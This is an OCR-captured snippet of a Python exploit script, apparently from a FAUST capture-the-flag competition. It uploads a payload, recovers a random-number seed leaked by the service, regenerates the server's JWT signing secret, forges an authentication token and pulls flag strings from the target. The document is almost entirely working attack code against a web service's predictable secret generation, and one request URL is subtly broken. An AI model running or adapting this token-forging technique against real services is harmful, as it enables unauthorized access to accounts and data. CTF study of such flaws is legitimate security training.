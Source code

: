 ```py

response = requests.post(f"http://[{HOST}]:5000/auth/submitIntel", data=data, allow_redirects=False, cookies={"auth": auth_cookie}) # Upload malicious payload
auth_cookie = response.cookies["auth"] # Rotate JWT token

response = requests.get(f"http://[{HOST}]:5000/auth/myRequests", cookies={"auth": auth_cookie}) # Get token from request
token_seed = int(base64.b64decode(re.findall(regex, response.text)[0] + "=")[2:-3]) # Find and decode token

seed(token_seed)
randbytes(8) # first secret (already used)
randbytes(8) # second secret (already used)
secret = randbytes(8) # third secret

encoded = jwt.encode(auth,secret,"HS256")

response = requests.get(f"http://[HOST]:5000/auth/collectIntel", cookies={"auth":encoded}) # Get the intel from the server
base64_strings = re.findall(r'([A-Za-z0-9+/]+={0,2})', response.text) # Find all base64 strings in the response

for base64_string in base64_strings:
    try:
        decoded = base64.b64decode(base64_string) # Decode the base64 string
        if b"FAUST" in decoded: # Check if the decoded string contains "FAUST"
            print(str(decoded), flush=True) # Print the decoded string
    except Exception as exc:
        pass
...
```
